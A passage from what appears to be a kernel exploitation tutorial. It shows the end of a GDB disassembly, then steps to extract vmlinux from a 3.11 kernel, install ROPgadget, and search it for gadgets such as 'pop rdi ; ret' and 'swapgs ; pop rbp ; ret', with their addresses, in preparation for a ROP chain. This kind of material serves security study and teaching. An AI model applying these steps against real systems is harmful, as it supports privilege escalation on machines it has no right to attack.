   ```sh
      0xffffffffa0000145 <+136>:	nop
      0xffffffffa0000146 <+137>:	mov    eax,0x0
      0xffffffffa000014b <+142>:	leave  
      0xffffffffa000014c <+143>:	ret    
    End of assembler dump.
  ```

- Host: get kernel gadgets
  ```sh
  $ cd # return home
  $ mkdir kernel_image
  $ cd kernel_image
  ```
  - If there is error related to SSL
    
    ```sh
    $ sudo apt-get install libssl-dev libssl1.0.0 openssl
    ```
  - Extract kernel. Download script from [kernel tree](https://raw.githubusercontent.com/torvalds/linux/master/scripts/extract-vmlinux)
    
    ```sh
      $ wget https://raw.githubusercontent.com/torvalds/linux/master/scripts/extract-vmlinux
      $ cp /boot/vmlinuz-3.11.0-15-generic .
      $ chmod u+x extract-vmlinux
      $ ./extract-vmlinux vmlinuz-3.11.0-15-generic > vmlinux-3.11.0-15-generic
      ```

  - Install [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)
    
    ```sh
    $ wget https://raw.githubusercontent.com/pypa/get-pip/master/get-pip.py
    $ sudo python get-pip
    $ sudo pip install capstone
    $ sudo pip install ropgadget
    ```
  - Get kernel gadgets
    
    ```sh
    ROPgadget --binary vmlinux-3.11.0-15-generic > kernel.gadgets
    ```
  - Search for ROP
    
    ```sh
    $ grep ': pop rdi ; ret' kernel.gadgets
    0xffffffff810476e5 : pop rdi ; ret
    $ grep ': pop rdx ; ret' kernel.gadgets
    0xffffffff812366d2 : pop rdx ; ret
    $ grep ': mov rdi, rax ; call rdx' kernel.gadgets
    0xffffffff81035b51 : mov rdi, rax ; call rdx
    $ grep ': swapgs ; pop rbp ; ret' kernel.gadgets
    0xffffffff81050554 : swapgs ; pop rbp ; ret
    ```
